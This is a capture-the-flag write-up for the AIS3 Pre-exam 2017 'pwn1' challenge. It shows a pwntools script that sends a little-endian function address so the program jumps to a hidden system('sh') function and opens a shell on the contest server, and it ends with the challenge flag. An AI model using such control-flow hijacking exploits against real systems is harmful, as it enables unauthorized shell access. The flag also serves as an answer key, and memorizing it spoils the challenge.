


# AIS3 Pre-exam 2017: pwn1



## Solution

The main function looks like this, we input a string and it will change the string to address and jump to that address.
Note that the binary also has a secret function "youcantseeme", which perform system("sh").
So we just have to input youcantseeme's address and perform system("sh").
The address of performing system() is 0x08048613, so we just input "\x13\x86\x04\x08" in little endian.

```python
#!/usr/bin/env python

from pwn import *

# host = '127.0.0.1'
# port = 8888
host = 'quiz.ais3.org'
port = 9561

r = remote(host, port)

raw_input('#')
r.recvuntil(': ')

payload = '\x13\x86\x04\x08'

r.sendline(payload)
r.interactive()
```

Flag:
>ais3{4nn0y1n9_Wh1t3_SpAcE_CHAR4CTERS}
